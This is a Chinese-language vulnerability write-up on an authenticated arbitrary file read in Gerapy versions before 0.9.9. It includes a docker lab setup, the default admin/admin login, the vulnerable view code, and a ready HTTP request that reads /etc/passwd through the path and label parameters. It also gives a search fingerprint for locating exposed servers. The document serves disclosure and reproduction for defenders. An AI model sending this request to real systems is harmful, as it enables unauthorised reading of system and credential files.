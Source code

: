 # Gerapy project_file_read 后台任意文件读取漏洞

## 漏洞描述

Gerapy 是一款基于 Scrapy、Scrapyd、Django 和 Vue.js 的分布式爬虫管理框架。

Gerapy < 0.9.9 存在任意文件读取漏洞，函数 `project_file_read` 的 `path` 和 `label` 参数可控，经过身份验证的攻击者可以读取任意文件。

参考链接：

- https://github.com/Gerapy/Gerapy/issues/210
- https://github.com/Gerapy/Gerapy/blob/af5657354aa040d5a6b52c91a837f5d63422d6d3/gerapy/server/core/views.py#L548-L561

## 漏洞影响

```
Gerapy < 0.9.9
```

## 网络测绘

```
title="Gerapy"
```

## 环境搭建

docker-compose.yml

```
version: "3.9"

services:

  gerapy:
    image: germey/gerapy:0.9.6
    build: .
    container_name: gerapy
    restart: always
    volumes:
      - gerapy:/home/gerapy
    ports:
      - 8000:8000

volumes:
  gerapy:
```

执行如下命令启动一个 Gerapy 0.9.6 版本的服务器：

```
docker-compose up -d
```

启动完成后，访问 `http://your-ip:8000` 即可查看登录页面，通过默认口令 `admin/admin` 登录后台。

![](images/Gerapy%20project_file_read%20后台任意文件读取漏洞/image-20250516170319239.png)

## 漏洞复现

[漏洞点](https://github.com/Gerapy/Gerapy/blob/af5657354aa040d5a6b52c91a837f5d63422d6d3/gerapy/server/core/views.py#L339) 位于 `gerapy/server/core/views.py`：

```
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_file_read(request):
    """
    get content of project file
    :param request: request object
    :return: file content
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        path = join(data['path'], data['label'])
        # binary file
        with open(path, 'rb') as f:
            return HttpResponse(f.read().decode('utf-8'))
```

![](images/Gerapy%20project_file_read%20后台任意文件读取漏洞/image-20250516170104352.png)

构造请求包：

```
POST /api/project/file/read HTTP/1.1
Host: your-ip:8000
Accept: */*
Referer: http://your-ip:8000/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Authorization: Token e8279162677dd4fbfefe352b0f51ea8ad19cace5

{"path":"/etc/","label":"passwd"}
```

![](images/Gerapy%20project_file_read%20后台任意文件读取漏洞/image-20250516170502226.png)

## 漏洞修复

升级至安全版本。

